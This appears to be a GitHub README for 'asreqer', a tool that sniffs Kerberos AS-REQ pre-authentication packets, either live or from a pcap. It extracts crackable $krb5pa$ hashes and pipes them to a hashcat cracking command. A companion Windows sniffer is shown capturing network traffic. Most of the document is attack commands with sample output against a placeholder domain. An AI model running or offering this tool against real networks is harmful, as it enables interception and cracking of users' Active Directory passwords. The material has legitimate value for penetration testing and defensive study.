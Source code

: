 # asreqer
asreq roasting

```sh
python3 asreqer.py live tun0
[*] Starting live capture on interface: tun0
[+] Found AS-REQ with pA-ENC-TIMESTAMP
    User (cname): Admin
    Realm:        CONTOSO.LOCAL
    EType:        18
    CipherText:   f4:07:3a:a7:ba:17:50:84:0f:7e [...snip...] 1:4f:de:7e:a5:51:b7:3f:2b:99:f4:4e:c9

=========================
$krb5pa$18$Admin$CONTOSO.LOCAL$f4073aa7ba175[... snip... ]b99f44ec9
=> Admin@CONTOSO.LOCAL-f4073a.krb5pa
=========================
```

crack with:

```sh
hashcat -m 19900 '$krb5pa$18$Admin$CONTOSO.LOCAL$f4073aa7ba175[... snip... ]b99f44ec9' <wordlist>
```

alternatively, collect packets with [sniffer](./sniffer/)

```sh
PS C:\Users\Admin\Desktop> .\sniffer.exe "Ethernet" 10 capture.pcap
[+] Using interface 'Ethernet' with IP 10.5.10.15
[+] Capturing for 10 seconds...
[+] Capture complete!
```

and parse with:

```sh
python3 asreqer.py file ../capture.pcap 
[*] Reading Kerberos packets from file: ../capture.pcap
[+] Found AS-REQ with pA-ENC-TIMESTAMP
    User (cname): Admin
    Realm:        CONTOSO.LOCAL
    EType:        18
    CipherText:   f4:07:3a:a7:ba:17:50:84:0f:7e [...snip...] 1:4f:de:7e:a5:51:b7:3f:2b:99:f4:4e:c9

=========================
$krb5pa$18$Admin$CONTOSO.LOCAL$f4073aa7ba175[... snip... ]b99f44ec9
=> Admin@CONTOSO.LOCAL-f4073a.krb5pa
=========================
```

## ref

[https://www.thehacker.recipes/ad/movement/kerberos/asreqroast](https://www.thehacker.recipes/ad/movement/kerberos/asreqroast)
[https://github.com/TheFlamingCrab/ticketsniffer](https://github.com/TheFlamingCrab/ticketsniffer)